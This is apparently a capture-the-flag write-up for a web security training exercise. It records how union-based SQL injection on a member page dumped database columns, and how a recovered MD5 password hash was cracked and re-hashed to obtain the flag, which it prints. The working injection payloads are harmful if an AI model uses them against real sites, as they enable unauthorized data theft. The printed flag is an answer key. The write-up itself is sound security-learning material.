 # UNION BASED SQL INJECTION

## Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Discovery
go to
```
 http://{IP_ADDRESS}/index.php?page=member
```
tryed a simple sql statement 
```
1 OR 1=1 
The SQL above is valid and will return ALL rows from the "users" table, since OR 1=1 is always TRUE.
```

Retrieve columns names with the table they belong to:
```
-1 UNION SELECT table_name,concat(column_name) FROM information_schema.COLUMNS 
```

Retrieve the id of the user (flag):
```
-1 UNION SELECT NULL, user_id FROM users
```

started investagting on that user (flag) by geting all its information each time changing col1, col2:
```
-1 UNION SELECT [col1_name], [col2_name] FROM db_default WHERE user_id=5
```

The table below show the result 

| user_id | first_name | last_name | town | country | planet | commentaire                                                                   | countersign |
| ------- | ---------- | --------- | ---- | ------- | ------ | ----------------------------------------------------------------------------- | ----------- |
|   5     | flag       | GetThe    |  42  |    42   |   42   | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |

following the instruction :
* analyzing the password using [cipher identifier](https://www.dcode.fr/cipher-identifier)
* decrypt the password using [md5decrypt - md5](https://md5decrypt.net/en/)
* 5ff9d0165b4f92b14994e5c685cdce28 gives FortyTwo 
* lower all the char encrypt it using Sh256
* flag is 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## Helpers:
- [retrieve data from db](https://www.sqlinjection.net/table-names/)
- [dcode - cipher identifier](https://www.dcode.fr/cipher-identifier)
- [md5decrypt - md5](https://md5decrypt.net/en/)
